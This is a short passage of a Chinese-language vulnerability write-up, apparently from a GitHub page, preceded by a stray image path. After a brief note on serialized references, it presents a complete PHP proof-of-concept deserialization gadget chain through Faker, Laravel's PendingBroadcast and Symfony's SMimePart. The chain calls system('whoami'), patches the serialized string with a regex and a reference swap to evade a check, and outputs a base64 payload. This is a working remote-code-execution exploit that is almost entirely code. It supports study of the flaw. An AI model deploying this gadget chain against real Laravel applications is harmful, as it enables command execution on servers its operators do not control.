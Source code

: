 c1的值是R:3，反序列化输出内容看到c1的值可以被改变

![image-20221202135028632](images/12.png)

## 漏洞复现

POC如下

```
<?php

namespace Faker {
    class Generator
    {
        protected $providers = [];
        protected $formatters = [];
        function __construct()
        {
            $this->formatter = "dispatch";
            $this->formatters = 9999;
        }
    }
}

namespace Illuminate\Broadcasting {
    class PendingBroadcast
    {
        public function __construct()
        {
            $this->event = "whoami";
            $this->events = new \Faker\Generator();
        }
    }
}

namespace Symfony\Component\Mime\Part {
    abstract class AbstractPart
    {
        private $headers = null;
    }

    class SMimePart extends AbstractPart
    {
        protected $_headers;
        public $DawnT0wn;
        function __construct()
        {
            $this->_headers = ["dispatch" => "system"];
            $this->DawnT0wn = new \Illuminate\Broadcasting\PendingBroadcast();
        }
    }
}


namespace {
    $pop = new \Symfony\Component\Mime\Part\SMimePart();
    $ser = preg_replace("/([^\{]*\{)(.*)(s:49.*)(\})/", "\\1\\3\\2\\4", serialize($pop));
    echo base64_encode(str_replace("i:9999", "R:2", $ser));
}
```
